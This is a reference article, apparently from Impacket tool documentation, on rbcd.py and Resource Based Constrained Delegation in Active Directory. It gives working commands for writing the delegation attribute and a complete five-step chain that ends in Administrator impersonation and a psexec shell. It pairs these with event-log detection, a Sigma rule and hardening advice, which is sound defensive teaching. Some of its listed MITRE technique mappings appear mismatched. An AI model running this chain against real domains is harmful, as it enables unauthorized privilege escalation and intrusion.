

title: "rbcd.py"
script: "examples/rbcd.py"
category: "AD Modification"
status: "Published"
protocols:
  - LDAP
  - LDAPS
ms_specs:
  - MS-ADTS
  - MS-DTYP
  - MS-SFU
mitre_techniques:
  - T1098
  - T1134.005
  - T1484.001
auth_types:
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/ad_modification
  - status/published
  - protocol/ldap
  - protocol/ldaps
  - authentication/ntlm
  - authentication/kerberos
  - technique/rbcd
  - technique/security_descriptor_manipulation
  - technique/s4u_prerequisite
  - mitre/T1098
  - mitre/T1134/005
  - mitre/T1484/001
aliases:
  - rbcd
  - impacket-rbcd
  - resource_based_constrained_delegation
  - allowedtoact


# rbcd.py

> **One line summary:** Reads, writes, removes, or clears the `msDS-AllowedToActOnBehalfOfOtherIdentity` security descriptor attribute on Active Directory objects, configuring or inspecting Resource Based Constrained Delegation in a single LDAP modification and serving as the middle step in the canonical RBCD attack chain between `addcomputer.py` and `getST.py`.

| Field | Value |
|:---|:---|
| Script | `examples/rbcd.py` |
| Category | AD Modification |
| Status | Published |
| Primary protocols | LDAP, LDAPS |
| Primary Microsoft specifications | `[MS-ADTS]`, `[MS-DTYP]`, `[MS-SFU]` |
| MITRE ATT&CK techniques | T1098 Account Manipulation, T1134.005 SID History Injection, T1484.001 Group Policy Modification |
| Authentication types supported | Password, NT hash, AES key, Kerberos ccache |
| First appearance in Impacket | 2021 |
| Original authors | Charlie Bromberg (`@ShutdownRepo`), based on the `rbcd-attack` tooling by `@tothi` |


## Prerequisites

This article builds on:

- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`smbclient.py`](../05_smb_tools/smbclient.md) for the four authentication modes.
- [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md) for the complete delegation taxonomy including Resource Based Constrained Delegation, the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, and the historical context (Server 2012 introduction, CVE-2020-16996 self RBCD patch).
- [`getST.py`](../02_kerberos_attacks/getST.md) for the S4U2Self / S4U2Proxy exploitation that consumes the RBCD configuration this tool creates.
- [`addcomputer.py`](addcomputer.md) (the companion article) for the computer account creation that typically precedes `rbcd.py`.


## What it does

`rbcd.py` reads or modifies the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on a specified Active Directory object. The attribute is a security descriptor that lists the security principals allowed to delegate to the object via S4U2Self plus S4U2Proxy (Resource Based Constrained Delegation).

The tool supports four actions:

- **`read`** (default): display the current RBCD configuration on the target. Shows which principals currently have delegation rights to the target.
- **`write`**: add a specified principal to the target's RBCD configuration. This is the offensive use case; the "attacker" account gains the ability to impersonate arbitrary users against the "victim" target.
- **`remove`**: remove a specific principal from the target's RBCD configuration, without affecting other principals. Used for targeted cleanup.
- **`flush`**: clear the entire RBCD configuration on the target. Removes every principal granted delegation rights. Used for nuclear cleanup or when the RBCD configuration is entirely attacker placed.

The tool is a focused AD modification utility. It does not perform the Kerberos operations required to actually exploit the configured RBCD; that is the job of [`getST.py`](../02_kerberos_attacks/getST.md). `rbcd.py` only handles the LDAP configuration step.

For a defender, the `read` action is useful for auditing. Any legitimate RBCD configuration is intentional and should be documented; anything unexpected is a finding. For an attacker, the `write` action is the middle step of the RBCD attack chain documented extensively in [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md), [`getST.py`](../02_kerberos_attacks/getST.md), and [`addcomputer.py`](addcomputer.md).


## Why it exists

Resource Based Constrained Delegation was introduced in Windows Server 2012 as a more flexible alternative to classic constrained delegation. The key design difference is the direction of the trust relationship:

- **Classic constrained delegation:** the source account holds `msDS-AllowedToDelegateTo` listing the target SPNs it can delegate to. Configuration requires write access to the source account.
- **Resource Based Constrained Delegation:** the target object holds `msDS-AllowedToActOnBehalfOfOtherIdentity` listing the source principals that can delegate to it. Configuration requires write access to the target object.

The inversion was intended to decentralize administrative burden. With classic constrained delegation, only Domain Admins could typically configure delegation because they were the only ones with write access to user accounts. With RBCD, resource owners could configure delegation to their own resources without Domain Admin involvement.

The security consequence was unintended but significant. Because **computer accounts have implicit write access to their own `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute**, an attacker who controls any computer account can configure RBCD on that computer from a different attacker controlled account, then perform S4U2Self plus S4U2Proxy to compromise the computer.

The `rbcd.py` tool was created by Charlie Bromberg (`@ShutdownRepo`) in 2021 to provide first class Impacket support for RBCD configuration. Before it existed, attackers used the `tothi/rbcd-attack` repository's earlier Python implementation. The Impacket version was adopted into the main repository and is the standard tool today.

The tool exists because RBCD exploitation is the most common privilege escalation path in modern Active Directory engagements. The attribute manipulation this tool performs is the middle step of the chain, and automating it in one command dramatically reduces the friction of running the attack.


## The protocol theory

The broader delegation context is in [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md). The S4U exploitation is in [`getST.py`](../02_kerberos_attacks/getST.md). What follows is the specific theory of the security descriptor attribute this tool manipulates.

### The `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute

The attribute is defined in the Active Directory schema. Its type is `msDS-AllowedToActOnBehalfOfOtherIdentity` (schema name), syntax `2.5.5.15` (Object Security Descriptor), single valued. It is present on computer objects, user objects, and managed service account objects; ordinarily populated only on objects that are the target of delegation.

The value is a security descriptor (SD) in the format defined by `[MS-DTYP]`. The SD contains:

- An owner SID (typically the domain's `Domain Admins` group).
- A group SID (similar).
- A Discretionary Access Control List (DACL) with Access Control Entries (ACEs).

For RBCD, only the DACL matters. Each ACE in the DACL grants a specified security principal the right to delegate to the target. The principal is identified by SID. The right is always the full allowed to delegate right; there are no graduated levels.

### The ACE structure

Each ACE in the DACL has the standard structure from `[MS-DTYP]`:

```text
AceType: ACCESS_ALLOWED_ACE_TYPE (0x00)
AceFlags: 0x00
AceSize: varies
Mask: 0 (the mask is not used for this attribute; the ACE presence is the grant)
Sid: the security principal's SID
```

When the KDC evaluates an S4U2Proxy request in RBCD mode, it checks whether the requesting account's SID appears in any ACE of the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` DACL. If yes, the delegation is allowed. If no (or the attribute is absent), the delegation is refused with `KDC_ERR_BADOPTION`.

### Writing the attribute

Writing `msDS-AllowedToActOnBehalfOfOtherIdentity` requires specific ACL rights on the target object:

- **`WriteDacl`** (write DACL) on the target, OR
- **`GenericAll`** or **`GenericWrite`** on the target, OR
- **Write access specifically to the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute** via a fine grained property set.

Additionally, and critically for the attack chain, **computer accounts have implicit write access to this attribute on their own object**. This is the single most important detail in RBCD exploitation. Any attacker who controls a computer account can write to its own `msDS-AllowedToActOnBehalfOfOtherIdentity` (modulo the CVE-2020-16996 self RBCD patch, see below).

### The self RBCD patch (CVE-2020-16996)

In December 2020, Microsoft patched a variant of RBCD called self RBCD via KB4598347 (CVE-2020-16996). Before the patch, an attacker controlling a computer account could write that same computer's SID into its own `msDS-AllowedToActOnBehalfOfOtherIdentity`, then perform S4U2Self plus S4U2Proxy from the computer to itself, resulting in local Administrator compromise in a single step.

The patch enforces that the requesting account in S4U2Proxy must be **different** from the target account. Self RBCD no longer works against patched systems. Attackers must now control a separate account (typically a newly created computer account via [`addcomputer.py`](addcomputer.md)) and write its SID into the target's `msDS-AllowedToActOnBehalfOfOtherIdentity`.

This is why `rbcd.py` has separate `-delegate-from` (the source, attacker controlled) and `-delegate-to` (the target, victim) parameters. They must be different for the attack to work against modern systems.

### The attribute's display name confusion

Two names refer to this attribute in practice:

- The LDAP name: `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- The PowerShell display name: `PrincipalsAllowedToDelegateToAccount`.

The PowerShell cmdlet `Set-ADComputer` uses the display name. Administrators and auditors who have only used PowerShell sometimes search for `msDS-AllowedToActOnBehalfOfOtherIdentity` and find nothing, because the PowerShell tooling translates it automatically. `rbcd.py` uses the raw LDAP name, and so do most raw LDAP tools.

### Comparison with the classic constrained delegation attribute

| Attribute | Type | Location | Managed by |
|:---|:---|||
| `msDS-AllowedToDelegateTo` | Multi valued SPN string list | Source account | Domain Admin |
| `msDS-AllowedToActOnBehalfOfOtherIdentity` | Security Descriptor | Target object | Target object owner (computers have implicit self write) |

Both are queried by [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md) but written through different channels. `rbcd.py` only handles the RBCD attribute; classic constrained delegation is configured via PowerShell or LDAP tools that write `msDS-AllowedToDelegateTo` directly.


## How the tool works internally

The script is short because each action is essentially a single LDAP operation.

1. **Argument parsing.** Positional `identity`, required `-delegate-to`, optional `-delegate-from` (required for `write`), `-action`, `-use-ldaps`, plus standard authentication.

2. **LDAP connection.** Connects to the DC on port 389 (LDAP) or 636 (LDAPS). The `-use-ldaps` flag selects LDAPS; default is LDAP with signing and sealing enabled for modern Windows configurations.

3. **Name resolution.** Both `-delegate-to` and `-delegate-from` are resolved to Distinguished Names via LDAP search:
    - A search for `(sAMAccountName=<n>)` returns the object's `distinguishedName` and `objectSid`.
    - The resolution handles both user accounts and computer accounts transparently (as long as the name is specified correctly, with or without a trailing `$` for computer accounts).

4. **Action dispatch.**

    **`read` action:**
    - Query the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.
    - If populated, parse the security descriptor.
    - For each ACE, resolve the SID to a readable account name.
    - Display the list.

    **`write` action:**
    - Query the current `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.
    - If present, parse the existing security descriptor.
    - If not present, create a new security descriptor.
    - Add an ACE granting the `-delegate-from` principal's SID.
    - Submit the new security descriptor via LDAP `modify` with `MODIFY_REPLACE`.

    **`remove` action:**
    - Query the current attribute.
    - Parse the security descriptor.
    - Remove any ACE matching the `-delegate-from` principal's SID.
    - Submit the updated security descriptor.

    **`flush` action:**
    - Submit an LDAP `modify` with `MODIFY_REPLACE` and an empty value list. This removes the attribute entirely.

5. **Error handling.** Specific errors are decoded:
    - `LDAP result code 50 (Insufficient Access Rights)`: the authenticating account does not have write access to the target's attribute. Most common error.
    - `LDAP result code 19 (Constraint Violation)`: the submitted security descriptor is malformed or contains an invalid SID.
    - `LDAP result code 32 (No Such Object)`: the `-delegate-to` target does not exist.


## Authentication options

Standard four mode pattern.

### Cleartext password

```bash
rbcd.py -delegate-to 'TARGET$' -delegate-from 'EVILCOMP$' -action write \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

### NT hash

```bash
rbcd.py -hashes :<nthash> -delegate-to 'TARGET$' -delegate-from 'EVILCOMP$' \
  -action write CORP.LOCAL/alice -dc-ip 10.0.0.10
```

### AES key

```bash
rbcd.py -aesKey <hex> -delegate-to 'TARGET$' -delegate-from 'EVILCOMP$' \
  -action write CORP.LOCAL/alice -dc-ip 10.0.0.10
```

### Kerberos ccache

```bash
export KRB5CCNAME=alice.ccache
rbcd.py -k -no-pass -delegate-to 'TARGET$' -delegate-from 'EVILCOMP$' \
  -action write CORP.LOCAL/alice -dc-ip 10.0.0.10
```

### Minimum required privileges

Depends on the action and the target:

- **`read`:** typically any authenticated user, because the attribute is world readable by default in most environments. Some hardened environments restrict read access via ACLs.
- **`write`, `remove`, `flush`:** write access to the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. This is the ACL requirement that defines who can configure RBCD.

The write access typically comes from one of:

- Domain Admin membership.
- Explicit `WriteDacl` or `GenericWrite` on the target.
- Being the target itself (a computer account writing its own attribute, via the implicit self right).
- A delegation role that includes the right (Account Operators to a limited extent).

For the attack, the relevant path is usually an NTLM relay that produces an LDAP session authenticated as a computer (typically via [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md) with `--delegate-access`).


## Practical usage

### Read the current RBCD configuration

```bash
rbcd.py -delegate-to 'TARGET$' -action read \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Output when the attribute is populated:

```text
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Accounts allowed to act on behalf of other identity:
[*]     WEB01$   (S-1-5-21-1234567890-1234567890-1234567890-1105)
[*]     EVILCOMP$   (S-1-5-21-1234567890-1234567890-1234567890-1450)
```

When the attribute is not populated:

```text
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
```

The `EVILCOMP$` entry in the second example is the smoking gun of a successful RBCD attack. Legitimate entries should be documented; unexpected entries are findings.

### Write (the classic attack configuration)

```bash
rbcd.py -delegate-to 'TARGET$' -delegate-from 'EVILCOMP$' -action write \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Output:

```text
[*] Delegation rights modified successfully!
[*] EVILCOMP$ can now impersonate users on TARGET$ via S4U2Proxy
```

After this step, `getST.py` can produce forged Service Tickets as any user against `TARGET$`. See [`getST.py`](../02_kerberos_attacks/getST.md) for the next step.

### Write using a controlled computer account

If the attacker already controls a computer account (via [`addcomputer.py`](addcomputer.md) or via a relay attack), the same account can be authenticated for `rbcd.py`:

```bash
rbcd.py -hashes :<evilcomp_nthash> \
  -delegate-to 'TARGET$' -delegate-from 'EVILCOMP$' -action write \
  CORP.LOCAL/'EVILCOMP$' -dc-ip 10.0.0.10
```

Useful when the initial low privilege domain user does not have write access to the target, but a specific computer account does. The typical scenario: a relayed machine authentication provides the LDAP session.

### Remove a specific principal

```bash
rbcd.py -delegate-to 'TARGET$' -delegate-from 'EVILCOMP$' -action remove \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Removes only the `EVILCOMP$` entry from `TARGET$`'s RBCD configuration. Leaves other delegation entries intact. Useful for cleanup after an RBCD attack when the target had legitimate RBCD entries that should be preserved.

### Flush the entire attribute

```bash
rbcd.py -delegate-to 'TARGET$' -action flush \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Clears the attribute entirely. Every principal previously granted delegation rights loses them. Use when:

- The target had no legitimate RBCD configuration and was entirely attacker populated.
- The attacker wants to deny service to a legitimate RBCD user (destructive action; not typical).
- As a remediation step by a defender who has discovered unauthorized RBCD configuration.

### LDAPS variant

```bash
rbcd.py -use-ldaps -delegate-to 'TARGET$' -delegate-from 'EVILCOMP$' -action write \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Forces LDAPS on port 636. Useful when the environment enforces LDAPS for write operations (a hardening baseline in some environments). Also encrypts the attribute contents over the wire, providing some stealth against passive observers.

### The complete RBCD attack chain

```bash
# Step 1: Create attacker computer account
addcomputer.py -computer-name 'EVILCOMP$' -computer-pass 'P@ss' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10

# Step 2: Configure RBCD (this tool)
rbcd.py -delegate-to 'TARGET$' -delegate-from 'EVILCOMP$' -action write \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10

# Step 3: Exploit with getST.py
getST.py -spn cifs/target.corp.local -impersonate Administrator \
  CORP.LOCAL/'EVILCOMP$':'P@ss' -dc-ip 10.0.0.10

# Step 4: Use the forged ticket
export KRB5CCNAME=Administrator@cifs_target.corp.local@CORP.LOCAL.ccache
psexec.py -k -no-pass CORP.LOCAL/Administrator@target.corp.local

# Step 5: Cleanup
rbcd.py -delegate-to 'TARGET$' -action flush \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
addcomputer.py -delete -computer-name 'EVILCOMP$' \
  CORP.LOCAL/alice:'S3cret!' -dc-ip 10.0.0.10
```

Five commands convert a low privilege domain user into local SYSTEM on `TARGET$`. Each individual step is low volume and uses only standard LDAP and Kerberos operations. The composite attack is one of the most productive in modern Active Directory exploitation.

### Key flags

| Flag | Meaning |
|:---|:---|
| `identity` (positional) | Authenticating user in the form `domain/user[:password]`. |
| `-delegate-to <n>` | Target account whose RBCD configuration is being read or modified. |
| `-delegate-from <n>` | Source account being granted (or removed from) RBCD rights. Required for `write` and `remove`. |
| `-action <action>` | `read`, `write`, `remove`, or `flush`. Default is `read`. |
| `-use-ldaps` | Use LDAPS on port 636 instead of LDAP on 389. |
| `-hashes`, `-aesKey`, `-k`, `-no-pass` | Standard authentication flags. |
| `-dc-ip`, `-dc-host` | Explicit DC address. |


## What it looks like on the wire

Short and simple. The tool performs one or two LDAP operations depending on the action.

### `read` action

- TCP connection to port 389 (or 636 for LDAPS) on the DC.
- LDAP bind.
- LDAP search for `(sAMAccountName=<target>)` requesting the target's `distinguishedName`, `objectSid`, and `msDS-AllowedToActOnBehalfOfOtherIdentity` attributes.
- LDAP search for each SID in the result to resolve it to an account name.
- LDAP unbind.

### `write` action

- LDAP bind.
- LDAP search to resolve `-delegate-to` and `-delegate-from` to DN and SID.
- LDAP search for the target's current `msDS-AllowedToActOnBehalfOfOtherIdentity`.
- LDAP `modify` with `MODIFY_REPLACE` containing the updated security descriptor.
- LDAP unbind.

### `flush` action

- LDAP bind.
- LDAP search to resolve `-delegate-to`.
- LDAP `modify` with `MODIFY_REPLACE` and empty value list.
- LDAP unbind.

### Wireshark filters

```text
ldap                                                 # all LDAP traffic
ldap.AttributeDescription contains "AllowedToAct"    # the critical attribute
tls                                                  # LDAPS connections
```

Plain LDAP (port 389) with default configuration is unsigned and unsealed, so the attribute contents are visible in capture. LDAPS and signed and sealed LDAP hide the contents.


## What it looks like in logs

The `write` action produces one of the highest fidelity detection signals available in Active Directory.

### Event ID 5136: Directory Service Object Modified

Fires for every LDAP attribute modification. For `rbcd.py -action write`, the relevant fields:

| Field | Value |
|:---|:---|
| ObjectDN | The target's Distinguished Name. |
| ObjectClass | `computer` (or `user`, depending on the target type). |
| AttributeLDAPDisplayName | `msDS-AllowedToActOnBehalfOfOtherIdentity` |
| OperationType | `%%14674` (value added) for `write`, or `%%14675` (value deleted) for `remove` / `flush`. |
| SubjectUserName | The authenticating account. |
| AttributeValue | The new security descriptor (in hex). |

Requires "Audit Directory Service Changes" with the appropriate SACL on the target object.

The single line detection rule: **any 5136 event modifying `msDS-AllowedToActOnBehalfOfOtherIdentity` is suspicious**. Period. There is essentially no legitimate reason for this attribute to change frequently. Every modification deserves an investigation.

### Event ID 4662: Directory Service Object Access

Fires for both read and write operations on the target object. For the `write` action, useful for catching the attempt even when 5136 is not configured. Requires appropriate SACLs.

### A complete Sigma rule

```yaml
title: RBCD Configuration Change
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5136
    AttributeLDAPDisplayName: 'msDS-AllowedToActOnBehalfOfOtherIdentity'
  condition: selection
level: high
falsepositives:
  - Legitimate RBCD configuration by authorized administrators.
```

Essentially every match of this rule is a finding. In environments with no legitimate RBCD, every match is an attack in progress.


## Detection and defense

### Detection opportunities

The detection story for this specific attribute is the best in all of Active Directory.

**5136 on `msDS-AllowedToActOnBehalfOfOtherIdentity`.** As described above. The highest fidelity signal in AD. Deploy this rule even if you deploy no others.

**Periodic enumeration of objects with the attribute populated.** BloodHound captures this via the `AllowedToAct` edge. PowerShell alternative:

```powershell
Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount |
  Where-Object { $_.PrincipalsAllowedToDelegateToAccount } |
  Select-Object Name, PrincipalsAllowedToDelegateToAccount
```

Run quarterly. Every object returned should have a documented legitimate RBCD configuration. Anything undocumented is a finding.

**Unexpected LDAP modifications from non administrative users.** Any LDAP `modify` operation from a non administrative source account writing to a computer object's attributes is worth investigating, with RBCD being only one of several things that could be happening (shadow credentials, DACL modification, and others also fit this pattern).

### Preventive controls

The detection is excellent; the prevention has to work in concert because the operation this tool performs is legitimate when done by authorized principals.

- **Deploy the 5136 detection rule.** Non negotiable. Even hardened environments should detect RBCD changes because even legitimate ones need to be audited.
- **Minimize who has `WriteDacl` / `GenericWrite` on computer objects.** These rights enable RBCD configuration. Audit quarterly. Acceptable holders are typically limited to domain administrative groups and a small set of service accounts.
- **Set `MachineAccountQuota` to `0`.** Blocks the `-delegate-from` side of the attack chain by preventing attackers from creating new computer accounts. See [`addcomputer.py`](addcomputer.md) for the full context.
- **Require LDAP signing and channel binding.** Blocks the NTLM relay attack that is the most common path to obtaining an LDAP write session. Microsoft's hardening baseline.
- **Disable LLMNR, NBNS, and IPv6 SLAAC.** Cuts off the coercion vectors that feed the NTLM relay attacks.
- **Protected Users for high privilege accounts.** Blocks them from being the impersonation target in S4U2Self, breaking the exploitation even if RBCD is configured (with the RID 500 exception documented in [`getST.py`](../02_kerberos_attacks/getST.md)).
- **Regular `findDelegation.py` runs.** Periodic discovery of all delegation configurations including RBCD. See [`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md).


## Related tools and attack chains

`rbcd.py` is the middle step of the canonical RBCD attack chain and is rarely used on its own outside of the chain.

### The canonical attack chain



### Upstream tools

- **[`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md)** identifies RBCD targets.
- **[`addcomputer.py`](addcomputer.md)** creates the attacker controlled source account.
- **[`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md)** with `--delegate-access` automates the entire chain including the LDAP modification that `rbcd.py` performs. When `ntlmrelayx.py` is used, `rbcd.py` is often not needed as a separate step.

### Downstream tools

- **[`getST.py`](../02_kerberos_attacks/getST.md)** performs the S4U2Self plus S4U2Proxy exploitation that produces the forged Service Ticket.
- **[`psexec.py`](../04_remote_execution/psexec.md)**, [`wmiexec.py`](../04_remote_execution/wmiexec.md), and other execution tools use the forged ticket to obtain a shell on the target.
- **[`secretsdump.py`](../03_credential_access/secretsdump.md)** can be used with the forged ticket to extract credentials from the compromised target.

### Related AD modification tools

- **[`addcomputer.py`](addcomputer.md)** (previous article) creates the source account for the write action.
- **[`dacledit.py`](dacledit.md)** manipulates DACLs on AD objects. Used in attack paths that grant RBCD write access before `rbcd.py` is invoked.
- **[`owneredit.py`](owneredit.md)** changes object ownership, another path to write access.


## Further reading

- **`[MS-ADTS]`: Active Directory Technical Specification.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/`. Covers the schema and attribute semantics.
- **`[MS-DTYP]`: Windows Data Types.** Section 2.4 covers the Security Descriptor format used in this attribute.
- **`[MS-SFU]`: Service for User and Constrained Delegation Protocol.** The RBCD evaluation rules are in section 3.2.5.1.2.
- **Elad Shamir "Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory"** at `https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html`. Required reading for understanding RBCD exploitation.
- **`@tothi` rbcd-attack repository** at `https://github.com/tothi/rbcd-attack`. The original Python implementation of the RBCD attack. The `rbcd.py` there directly inspired the Impacket version.
- **Charlie Bromberg (`@ShutdownRepo`) "Abusing Resource-Based Constrained Delegation"** at `https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd`. Current practical reference from the author of the Impacket tool.
- **Dirk-jan Mollema (`@_dirkjan`) "Wagging the Dog ... One Hop at a Time"** at `https://dirkjanm.io/`. Follow on research on RBCD and related delegation attacks.
- **Microsoft CVE-2020-16996 (KB4598347)** at `https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-16996`. The self RBCD patch.
- **BloodHound `AllowedToAct` edge documentation** at `https://bloodhound.specterops.io/`. Shows how the attribute is represented in attack path analysis.

To internalize this material, build a lab with at least three accounts: an attacker controlled user `alice`, an attacker controlled computer account `EVILCOMP$`, and a target computer `TARGET$`. Use the read action first to confirm the target has no RBCD configuration. Use the write action to grant `EVILCOMP$` delegation rights on `TARGET$`. Observe the 5136 event on the DC. Continue the chain with `getST.py` and confirm the Service Ticket is usable against `TARGET$`. Finally, use the flush action and observe the 5136 event again as the attribute is cleared. Doing this once in a lab makes the detection rules real instead of theoretical and gives defenders an unforgettable feel for how loud even the "stealthy" RBCD chain actually is at the 5136 observation point.
